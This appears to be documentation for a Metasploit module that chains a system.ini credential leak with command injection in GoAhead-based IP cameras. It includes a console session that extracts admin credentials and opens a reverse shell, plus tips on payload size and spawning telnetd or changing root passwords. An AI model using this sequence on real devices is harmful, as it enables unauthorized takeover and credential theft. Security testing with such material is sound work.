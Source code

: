 ## Vulnerable Application
  This module exploits an authenticated remote code execution in various branded ip cameras based on the same chinese OEM model.
  Those cameras are also vulnerable to a badly implemented check on system.ini file within the embedded GoAhead web server.
  By combining the two vulnerabilities, it is possible to achieve code execution without prior knowledge of any credentials.
  1250+ Cameras models have been found vulnerable so far.
  While the credential leak is pretty reliable, a smaller subset of those cameras have netcat available.
  Others have a smaller payload size or tend to mangle some characters on longer strings.
  Using a generic command payload to start a telnetd or change root password may be more suitable in those cases.
  
## Verification Steps
```
  msf exploit(ipcam_rce_with_creds_leak) > set VERBOSE true
  VERBOSE => true
  msf exploit(ipcam_rce_with_creds_leak) > set RHOST 192.168.1.66
  RHOST => 192.168.1.66
  msf exploit(ipcam_rce_with_creds_leak) > set RPORT 81
  RPORT => 81
  msf exploit(ipcam_rce_with_creds_leak) > check

  [*] Sending check
  [+] Camera likely vulnerable: Correct header sent by the camera
  [+] 192.168.1.66:81 The target is vulnerable.
  msf exploit(ipcam_rce_with_creds_leak) > exploit

  [*] Started reverse TCP handler on 192.168.1.1:4444 
  [*] Trying to download system.ini
  [*] 192.168.1.66:81 - Credentials saved in: /root/.msf4/loot/20170512095335_default_192.168.1.66_system.ini_421085.ini
  [*] Trying to extract credentials
  [+] Found 1 possible credentials
  [+] login: admin / password: test
  [!] No active DB -- Credential data will not be saved!
  [*] Trying to trigger code execution with credentials: login: admin / password: test
  [*] Command shell session 2 opened (192.168.1.1:4444 -> 192.168.1.66:32412) at 2017-05-12 09:53:35 -0400
```
## Options

  **PAYLOAD**

  The `generic` and `netcat-e` payload types are valid. If the netcat-e does not provide a shell this surely means that nc binary is not provided within the firmware
  or the nc symlink to busybox is not present.
  In that case use a generic command to change the root password, spawn a new unauthenticated telnetd daemon or anything else.
  
  Payload space is a real issue to deal with. The payload space is in theory 60 chars. when calling set_ftp.cgi the payload will be handled directly by the 
  GoAhead server binary named 'encoder' on most models. Depending on the model the payload can be mangled when non word character are used and/or size is above some threshold.
  A good compromise is to use a payload space of 45 which seems to works correctly on several model tested. It is possible to verify if the payload has been mangled
  by downloading system.ini again after execution attempt (set GATHER_CREDS_ONLY true) and manually analyzing it. The payload should be fully located in the binary file.   


  **GATHER_CREDS_ONLY**
  
  Use this options to only download system.ini and extract credentials without attempting code execution.
  
  **USERNAME**
  
  Use a predifined username for code execution by skipping credential leak attempt
  
  **PASSWORD**
  
  Use a predifined password when USERNAME is set
